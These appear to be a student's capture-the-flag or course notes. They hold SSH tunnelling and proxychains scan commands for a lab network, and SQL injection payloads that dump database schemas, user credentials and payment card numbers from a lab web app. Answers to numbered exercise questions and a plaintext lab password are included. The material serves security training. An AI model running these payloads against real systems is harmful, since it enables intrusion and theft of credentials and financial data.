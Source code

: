 # JB Password:
```
v0cEcUbwIzY878p
```
# MS setup: 
```
ssh -MS /tmp/jump student@10.50.37.98	     

ssh -S /tmp/jump jump -O forward -D 9050

ssh -MS /tmp/web student@10.50.37.98

ssh -S /tmp/web web -O forward -L 2224:10.100.28.40:4444

ssh -S /tmp/jump jump -O cancel -D9050

ssh -S /tmp/web web -O forward -D9050

proxychains nmap -Pn -n -T5 10.100.28.55

proxychains nmap --script http-enum 10.100.28.55
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


    Golden Rule:
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT table_schema,table_name,column_name from information_schema.columns
    ```
    ### step 4:  Craft more tailored queries
    q3 * Provide the password for users with administrator access to the DNLA database. To answer input the flag.
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members
    ```
    q4 * Utilizing the Search page on DNLA, identify the vulnerability to find the flag. To answer input only the characters inside the flag.
    ```
    ' OR 1='1
    ```
    q5 * Identify the version of the database that DNLA is utilizing.To answer input the full version.
    ```
    http://127.0.0.1:1111/cases/productsCategory.php?category=1 UNION SELECT table_schema,@@version,column_name from information_schema.columns
    ```


## q6 * Utilizing the input field on DNLA budget page, find the flag associated with credit cards. To answer the question enter only the characters inside the flag.
```

127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members

'UNION SELECT id,creditcard_number,order from sqlinjection.payments' query

```


## q7 * Find the flag associated with id 1337.
```

```
## q8 * Using the /cases/register.php page on DNLA create a user with admin permissions, ensuring the firstname is set to Hacker. Once created log in to get the flag.
(meh !! I ain't pressed)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## ExploitationDevelopmentCTFD_OPNotes

After running string.exe in powershell.
Items of interest:
- stdin@@GLIBC_2.0
- ELF
- Press enter to view inventory:


